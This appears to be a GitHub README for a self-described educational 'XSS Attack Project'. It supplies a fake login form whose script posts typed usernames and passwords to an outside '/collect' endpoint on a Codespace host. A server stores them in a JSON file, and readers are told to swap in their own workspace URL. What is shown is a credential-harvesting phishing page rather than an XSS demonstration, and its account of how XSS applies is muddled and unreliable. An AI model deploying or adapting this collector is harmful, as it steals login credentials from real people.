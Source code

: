 # XSS Attack Project

## Disclaimer
This project is intended for educational purposes only. Cross-Site Scripting (XSS) is a security vulnerability that should only be tested responsibly and with proper authorization. Unauthorized testing of XSS vulnerabilities is illegal and unethical.

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

1. [Installation](#installation)
2. [How to run the code](#how-to-run-the-code)
3. [Client Side Code](#client-side-code)
4. [XSS Demo Video](#xss-demo-video)
5. [Contribution Guidelines](#contribution-guidelines)
6. [License Information](#license-information)
7. [Additional Resources](#additional-resources)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Ensure you have Git installed on your machine. You can download it from [Git](https://git-scm.com/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* It is recommended to run this project in a local or isolated environment due to potentially sensitive login data. But you can run on GitHub Codespace as well.
* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

### Explanation
The client-side code handles the user input from the login form. When the login button is clicked, the `sendLoginToAPI` function is triggered. This function collects the username and password entered by the user and sends them to the server using an AJAX POST request. The server then processes this data and saves it to a JSON file. The XSS vulnerability could be exploited if an attacker injects malicious scripts into the username or password fields, which would then be executed when the data is processed or displayed.

## XSS Demo Video
<details><summary>View Demo Video</summary>


https://github.com/user-attachments/assets/289917ae-d0b3-43f3-8b9d-1af6f298c824

</details>


## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the Apache License, Version 2.0.

## Additional Resources

* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [MDN Web Docs: Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)

## Detailed Project Description

### Purpose of Each File

- `client_code.html`: Contains the client-side code for the login form and the script to send login data to the server.
- `server.js`: The server-side code that handles incoming login data and saves it to a JSON file.
- `users.json`: The JSON file where login data is stored.
- `package.json`: Contains metadata about the project and its dependencies.
- `LICENSE`: The license file for the project.

### How They Interact

1. The user interacts with the login form in `client_code.html`.
2. When the login button is clicked, the client-side script sends the login data to the server.
3. The server, implemented in `server.js`, receives the data and saves it to `users.json`.
4. The `package.json` file ensures that all necessary dependencies are installed for the project to run.

## How to Run the Project on GitHub Codespace

1. Open the repository on GitHub.
2. Click on the "Code" button and select "Open with Codespaces".
3. If you don't have a Codespace created, click on "New Codespace".
4. Once the Codespace is ready, open a terminal.
5. Navigate to the project directory.
6. Install the dependencies by running the following command:
   ```bash
   npm install
   ```
7. Start the server by running the following command:
   ```bash
   node server.js
   ```

## How to Change the Workspace Name in `client_code.html`

1. Open the `client_code.html` file.
2. Locate the following line in the script section:
   ```javascript
   const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';
   ```
3. Replace `'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect'` with your own workspace URL.

## Author Information

- **Author**: StepSisStuck
- **Version**: 1.0.0
